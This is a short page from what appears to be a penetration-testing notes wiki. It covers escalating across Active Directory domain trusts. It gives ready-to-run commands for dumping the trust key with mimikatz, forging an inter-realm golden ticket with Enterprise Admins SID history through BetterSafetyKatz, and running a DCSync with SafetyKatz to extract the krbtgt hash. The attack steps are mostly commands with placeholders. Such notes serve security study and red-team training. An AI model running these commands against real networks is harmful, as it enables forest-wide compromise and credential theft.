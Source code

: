 # Trust

### _Using the trust key_&#x20;

First you need the trust key (in)

```mimikatz
lsadump::trust /patch
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20231113153820.png" alt=""><figcaption></figcaption></figure>

Now you can [forge a ticket with SID History of Enterprise Admins](../../../persistence/ticket-forging.md#inter-realm-ticket).&#x20;

Now use rubeus [pass the ticket](../../lateral-movement/pass-the/pass-the-ticket.md) and get access on the other domain's dc

### &#x20;_Using the krbTGT account_&#x20;

With the hash of krbtgt account from dcorp-dc we can create an inter-realm TGT and inject. Using Rubeus

{% code overflow="wrap" %}
```powershell
./BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<CURRENT DOMAIN> /sid:<CURRENT DOMAIN SID> /sids:<SID TO EXTRACT> /krbtgt:<KRBTGT HASH> /ptt" "exit"
```
{% endcode %}

&#x20;

<figure><img src="../../../../.gitbook/assets/Pasted image 20231113161101.png" alt=""><figcaption></figcaption></figure>

Now we can also run a [DC-Sync](dcsync.md)

```cmd
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<TARGET DOMAIN>" "exit"
```
